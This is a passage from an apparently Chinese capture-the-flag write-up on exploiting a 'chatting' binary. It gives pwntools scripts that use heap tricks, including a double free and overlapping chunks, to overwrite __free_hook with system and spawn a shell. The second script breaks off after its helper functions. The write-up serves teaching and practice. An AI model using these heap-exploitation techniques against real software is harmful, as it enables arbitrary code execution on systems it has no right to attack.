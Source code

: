 ```python

delete("chuwei3")
add("chuwei3")

message_func("chuwei3",0x200,"aaaaaaaaaaaa")

delete("chuwei2")
add("chuwei2")
mydbg()
message_func("chuwei2",0x410,b"\x00"*0x200+p64(0x210)+p64(0x211)+p64(libc_base+libc.sym['__free_hook']))

message_func("chuwei2",0x200,"/bin/sh\x00")
message_func("chuwei2",0x200,p64(libc_base+libc.sym['system']))
delete("chuwei2")
p.interactive()
```

![image-20231217110436821](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111729.png)

#### 解法二

向一个删除过的用户发送消息时候，多次申请message chunk 会导致释放其中的message chunk，然后再次add 该用户，会导致一个double free。可以利用这点构造出一个重叠堆块，具体构造脚本如下：

```python
from pwn import*
context.arch='amd64'
context.log_level='debug'
p=process('./chatting')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
	gdb.attach(p,"b *$rebase(0x000321F)")#\n decompiler connect ida --host 10.193.253.113 --port 3662")
	pause()


def menu(choice):
	ru("Choose action (add, delete, switch, message, read, listuser, exit): ")
	sl(choice)


def add(usrname):
	menu("add")
	ru("Enter new username:")
	sl(usrname)

def delete(usrname):
	menu("delete")
	ru("Enter username to delete:")
	sl(usrname)

```